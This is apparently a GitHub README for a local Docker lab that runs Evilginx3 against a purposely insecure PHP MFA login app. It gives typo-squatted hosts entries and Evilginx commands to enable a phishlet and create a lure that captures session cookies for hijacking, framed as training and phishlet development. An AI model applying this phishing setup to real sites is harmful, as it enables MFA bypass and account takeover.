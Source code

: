# Evilginx LAB on Docker
![back](evil-dock.jpg)

## Disclaimer
As you can imagine, this lab was created solely and exclusively for the purposes outlined in the<b>Why</b> section, and absolutely not for any malicious activity. Of course, I disclaim any responsibility for the improper use of the material contained in this repository.
The containers must absolutely not be exposed to a public network.

Please note that the comments inside files are in italian.

## Why?
I created a local lab to test Evilginx without the need to purchase a domain or presumably a VPS. It is useful for the following use cases:
1. Study and practice
2. Phishlet development and testing
3. Demonstrations and training activities

## Lab architecture
The lab consists of two Linux Docker containers. One hosts a simple PHP application that implements an MFA login process. The application is completely insecure, so it is strongly recommended not to expose it to the Internet and not to use the code in real-world applications. The second container hosts the Evilginx3 server.
You can find the static parameters to access the web application in <b>/app/login-config.php</b>

## Objective
Our goal is to intercept the authentication tokens (cookies) needed to hijack the user's session. It's very straightforward.

## Build & run the containers
Clone this repo and enter the directory, then execute:
	
	sudo docker-compose up --build -d --force-recreate --remove-orphans
	Building apache-php
	[+] Building 1.1s (11/11) FINISHED
	...
	Building evilginx2
	[+] Building 1.1s (10/10) FINISHED   
	...
	Creating targetsite.local ... done
	Creating targetsile.local ... done

	
Verify the containers:

	sudo docker ps
	CONTAINER ID   IMAGE                          COMMAND                  CREATED          STATUS          PORTS               NAMES
	636fa17740bf   evilginx_lab-main_apache-php   "apachectl -D FOREGR…"   41 minutes ago   Up 41 minutes   80/tcp, 443/tcp     targetsite.local
	2c595290c650   evilginx_lab-main_evilginx2    "/bin/bash -l"           41 minutes ago   Up 41 minutes   443/tcp, 8080/tcp   targetsile.local


## Mimic DNS
Modify hosts file in your host machine. Add the following lines:

	172.18.0.20 	targetsite.local login.targetsite.local
	172.18.0.10	targetsile.local login.targetsile.local
	
Visit the Legitimate site at: https://login.targetsite.local, with a bit of typo-squatting, the evil site will be https://login.targetsile.local


## Start evilnginx
Enter Evilginix container shell

	sudo docker exec -it /targetsile.local /bin/bash
Then start Evilginix in developer mode, in this mode, instead of trying to obtain LetsEncrypt SSL/TLS certificates, it will automatically generate self-signed certificates.
```bash  

root@e279e8098a4d:/evilginx2# ./evilginx2 -debug -developer

                                         
                                             ___________      __ __           __               
                                             \_   _____/__  _|__|  |    ____ |__| ____ ___  ___
                                              |    __)_\  \/ /  |  |   / __ \|  |/    \\  \/  /
                                              |        \\   /|  |  |__/ /_/  >  |   |  \>    < 
                                             /_______  / \_/ |__|____/\___  /|__|___|  /__/\_ \
                                                     \/              /_____/         \/      \/
                                         
                                                        - --  Community Edition  -- -
                                         
                                               by Kuba Gretzky (@mrgretzky)     version 3.3.0
                                         

[15:32:34] [inf] Evilginx Mastery Course: https://academy.breakdev.org/evilginx-mastery (learn how to create phishlets)
[15:32:34] [inf] debug output enabled
[15:32:34] [inf] loading phishlets from: /evilginx2/phishlets
[15:32:34] [inf] loading configuration from: /root/.evilginx
[15:32:34] [inf] blacklist mode set to: unauth
[15:32:34] [inf] unauthorized request redirection URL set to: https://www.youtube.com/watch?v=dQw4w9WgXcQ
[15:32:34] [inf] https port set to: 443
[15:32:34] [inf] dns port set to: 53
[15:32:34] [inf] autocert is now enabled
[15:32:34] [inf] blacklist: loaded 0 ip addresses and 0 ip masks
[15:32:34] [war] server domain not set! type: config domain <domain>
[15:32:34] [war] server external ip not set! type: config ipv4 external <external_ipv4_address>

+-------------------+-----------+-------------+-----------+-------------+
|     phishlet      |  status   | visibility  | hostname  | unauth_url  |
+-------------------+-----------+-------------+-----------+-------------+
| example           | disabled  | visible     |           |             |
| targetsite-local  | disabled  | visible     |           |             |
+-------------------+-----------+-------------+-----------+-------------+

:  

```
Note that I used the debug option too, since, I don't know why at the moment, the phishlet refues to capture the otp credential. Using the debug options permit to get the whole requests.
                                        
## Config Evilngnix container
```bash  
: config domain targetsile.local
: config ipv4 172.18.0.10
: phishlets hostname targetsite-local targetsile.local

: phishlets get-hosts targetsite-local 
	172.18.0.10 login.targetsile.local
	172.18.0.10 targetsile.local
	
: phishlets enable  targetsite-local 
: lures create targetsite-local 
: lures

+-----+-------------------+-----------+------------+-------------+---------------+---------+-------+
| id  |     phishlet      | hostname  |   path     | redirector  | redirect_url  | paused  |  og   |                                                                                                                                        
+-----+-------------------+-----------+------------+-------------+---------------+---------+-------+                                                                                                                                        
| 0   | targetsite-local  |           | /nBfYHrTO  |             |               |         | ----  |                                                                                                                                        
+-----+-------------------+-----------+------------+-------------+---------------+---------+-------+                                                                                

: lures get-url 0

	https://login.targetsile.local/nBfYHrTO
```
	
## Demo video (hosted on Screenrec)
- I use Firefox to surf the lure's site
- I use Chromium to visit the legitimate site

https://screenrec.com/share/SubzqN2YLx

Enjoy :)

## Useful Docker commands

### Stop and remove all the containers

	sudo docker stop $(docker ps -q)
	sudo docker rm $(docker ps -a -q)
	sudo docker image prune -a
	sudo docker-compose down
	
### Access a shell's container

	sudo docker exec -it <container name> /bin/bash

### Check mounted volumes

	sudo docker inspect <container name> | grep Mounts -A 10
	

## Inspect logs

	sudo docker logs <container name>
	
### Show containers IP

	sudo docker ps -q | xargs -n 1 docker inspect -f '{{.Name}} - {{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}'
	
	/targetsite.local - 172.18.0.20
	/targetsile.local - 172.18.0.10

